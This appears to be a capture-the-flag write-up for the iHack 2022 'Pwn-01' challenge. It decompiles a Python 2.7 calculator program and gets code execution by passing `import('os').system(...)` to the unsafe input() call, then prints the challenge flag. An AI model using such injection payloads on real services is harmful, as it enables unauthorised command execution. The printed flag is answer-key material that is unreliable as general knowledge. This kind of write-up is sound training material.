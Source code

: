 # Pwn-01

> **Flag Format:** `ihack{MD5}`
>
> **Remote Instance:** `nc pwn1.ihack.sibersiaga.my 80`

### Solution

The binary is a compiled python executable. The original binary was corrupted.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ file calculator_
calculator_: python 2.7 byte-compiled
```

Fix the file format by changing the extension to `.pyc`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ mv calculator_ calculator.pyc
```

The python byte-code executable can be decompiled using `decompyle6`, `pycdc` or by using this [Online Compiler](https://www.toolnb.com/tools-lang-en/pyc.html).

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ cat calculator.py 

# uncompyle6 version 3.5.0
# Python bytecode 2.7 (62211)
# Decompiled from: Python 2.7.5 (default, Jun 28 2022, 15:30:04) 
# [GCC 4.8.5 20150623 (Red Hat 4.8.5-44)]
# Embedded file name: calculator.py
# Compiled at: 2022-12-09 16:17:40

import sys
print 'Welcome to IHACK2022. \nThis python program will calculate the prime numbers up to a given number.\nPlease enter a number to be calculated'
sys.stdout.flush()
number = input('')
sys.stdout.flush()
number = int(number)

def is_prime(number):
    if number <= 1:
        return False
    for i in range(2, number):
        if number % i == 0:
            return False

    return True


def print_primes(number):
    for i in range(1, number + 1):
        if is_prime(i):
            print i


print 'The prime numbers up to', number, 'are:'
sys.stdout.flush()
print_primes(number)                     
```

The code uses input function which take any input as literal python code. Therefore, we can get RCE using the shell command `import('os').system("cat flag.txt")`.

**Flag:** `ihack{ebd4e5f19d80a8f40b58a7abba5363a0}`

